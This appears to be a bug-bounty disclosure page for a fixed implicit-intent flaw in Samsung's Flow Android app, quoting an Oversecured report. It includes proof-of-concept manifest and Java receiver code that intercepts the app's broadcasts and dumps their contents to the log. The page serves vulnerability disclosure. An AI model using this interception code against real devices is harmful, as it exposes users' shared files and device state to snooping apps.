

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Samsung Flow</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.galaxycontinuity</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.10.02</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2023.01.04</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Low</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td>N/A</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$450</td>
    </tr>
</table>

# Description

Oversecured report:


Oversecured found multiple uses of implicit intents in the Samsung Flow app when sending broadcasts. They contained sensitive data, such as shared file data, Bluetooth states, etc. These intents could be intercepted by any third-party apps installed on the same device.

**Proof of Concept**

File `AndroidManifest.xml`:
```xml
<receiver android:name=".MyReceiver" android:exported="true">
    <intent-filter>
        <action android:name="APP_ADD" />
        <action android:name="com.samsung.android.galaxycontinuity.Mirroring.ORIENTATION" />
        <action android:name="com.samsung.android.galaxycontinuity.Mirroring.EVENT_CONNECTION_REQUEST_RECEVIED" />
        <action android:name="MAKE_FAVORITE_LIST_COMPLETE" />
        <action android:name="com.samsung.accessory.intent.action.UPDATE_NOTIFICATION_ITEM" />
        <action android:name="com.samsung.android.galaxycontinuity.Mirroring.CHANGE_MIRRORING_STATE" />
        <action android:name="com.samsung.android.galaxycontinuity.Mirroring.REQUEST_TRANSFER_FAVORITE" />
    </intent-filter>
</receiver>
```

File `MyReceiver.java`:
```java
public class MyReceiver extends BroadcastReceiver {
    public void onReceive(Context context, Intent intent) {
        DumpUtils.dump(intent, context.getClassLoader());
    }
}
```

The implementation of the `DumpUtils.dump()` method can be found in the source code. We use the functionality of the Gson library to turn objects of any class into a string and then dump it to the log.

## References

- [Oversecured Blog. Interception of Android implicit intents](https://blog.oversecured.com/Interception-of-Android-implicit-intents/)
